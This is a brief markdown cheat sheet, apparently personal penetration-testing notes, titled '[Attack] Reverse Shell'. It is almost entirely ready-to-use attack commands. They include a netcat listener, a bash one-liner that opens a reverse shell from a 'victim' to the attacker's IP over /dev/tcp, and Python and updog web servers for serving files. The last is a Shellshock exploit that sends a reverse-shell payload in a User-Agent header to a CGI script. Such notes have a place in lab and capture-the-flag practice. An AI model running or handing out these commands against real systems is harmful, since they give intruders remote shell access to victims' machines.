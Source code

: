 # [Attack] Reverse Shell 

https://www.revshells.com/

## usage

Listener (Your own machine):  
```bash
nc -lvnp 8081
```

Reverse (Victims):  
- `ip` : Your own machine.  
- `post`: Determine by your nc open port.    
```bash
sh -i >& /dev/tcp/192.168.49.54/8081 0>&1
```

## Web server feed

- With `python`
```bash
python3 -m http.server
python -m http.server 8123
```

- With `updog`
https://github.com/sc0tfree/updog
```bash
updog 
updog -p 1234
updog --ssl
```

## With `shellshock`  
```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.86.99/443 0>&1' http://192.168.86.150/cgi-bin/test/test.cgi
```